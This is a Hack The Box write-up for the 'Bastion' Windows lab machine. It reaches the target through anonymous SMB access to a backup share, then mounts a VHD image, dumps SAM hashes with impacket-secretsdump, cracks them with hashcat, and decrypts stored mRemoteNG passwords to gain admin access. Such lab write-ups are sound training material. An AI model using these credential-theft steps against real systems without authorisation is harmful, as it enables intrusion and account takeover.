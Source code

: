 # Bastion HTB Walkthrough

## Target Information
- **IP Address**: 10.10.10.134
- **Hostname**: bastion.htb
- **OS**: Windows Server 2016 Standard 14393

---

## 🛠 Initial Setup & Reconnaissance

### 🎯 Environment Preparation
1. Store target IP for automation:
```bash
echo "10.10.10.134" > target
```

2. Add DNS resolution to hosts file:
```bash
echo "10.10.10.134 bastion.htb" | sudo tee -a /etc/hosts
```

---

## 🔍 Network Enumeration

### Port Discovery
Performed full TCP port scan:
```bash
nmap -p- -iL target -v -oN nmap/tcp_ports_scan.txt
```

**Findings**:
```
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664-49670/tcp open  msrpc
```

### Service Enumeration
Aggressive scan on open ports:
```bash
ports=$(awk -F '/' 'NR>=6 && NR<=18 {print $1}' nmap/tcp_ports_scan.txt | paste -sd ',')
nmap -p$ports -sCV -oA nmap/service_scan -iL target
```

**Key Findings**:
- SMB (445/tcp): Windows Server 2016 Standard
- WinRM (5985/47001): Potential remote management access
- SSH (22/tcp): OpenSSH for Windows 7.9

---

## 📁 SMB Exploitation

### Share Enumeration
List available SMB shares:
```bash
smbclient -L \\\\bastion.htb\\ -N
```

**Discovered Shares**:
```
ADMIN$          - Remote Admin
Backups         - Potential backup storage
C$              - Default system share
IPC$            - Inter-process communication
```

![image](https://github.com/user-attachments/assets/ce65f502-3ed9-4113-bab3-5894284dfaca)

### Accessing Backups Share
Anonymous access to Backups share:
```bash
smbclient \\\\bastion.htb\\Backups -N
```

**Discovered Files**:
- 9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd (System Boot)
- 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd (User Data)

### Mounting Virtual Hard Disks
1. Mount SMB share:
```bash
mkdir /mnt/backups
mount -t cifs //bastion.htb/Backups /mnt/backups -o ro,vers=2.1
```

3. Extract and mount VHD (if you got an error, try to list on it anyway):
```bash
mkdir /tmp/vhd
7z x /mnt/backups/9b9cfbc4-*.vhd -o/tmp/vhd
```

### Credential Extraction
Dump SAM database using Impacket:
```bash
impacket-secretsdump -sam /tmp/vhd/Windows/System32/config/SAM \
                     -system /tmp/vhd/Windows/System32/config/SYSTEM LOCAL
```

**Extracted Hashes**:
```
Administrator:500:aad3b... 
L4mpje:1000:aad3b... 
```

### Password Cracking
Crack NTLM hashes with Hashcat:
```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

---

## Initial Access

### SSH Connection
Authenticate with obtained credentials:
```bash
ssh L4mpje@bastion.htb
```

You'll got the user flag.

---

## ⚙️ Privilege Escalation

**mRemoteNG Credential Extraction**

1. Found mRemoteNG installed in:
```shell
C:\Program Files (x86)\
```

![Screenshot from 2025-04-13 11-44-43](https://github.com/user-attachments/assets/2d9c9075-9bd5-45d9-b7d0-281d6aa26a2e)

2. Config file with saved credentials:
```shell
C:\Users\<User>\AppData\Roaming\mRemoteNG\confCons.xml
```

3. Base64 encoded password was found in the file.

4. Decrypt password using the Python tool:

```bash
git clone https://github.com/kmahyyg/mremoteng-decrypt.git
cd mremoteng-decrypt
python3 mremoteng_decrypt.py -s <Base64 string>
```

5. Logged in as Administrator using decrypted credentials.

---

## 🏁 Summary

* ✅ Initial access: SMB share > VHD > Password hash dump > SSH login
* 🔐 Privilege escalation: Extract mRemoteNG creds > Decrypt > Admin access

---
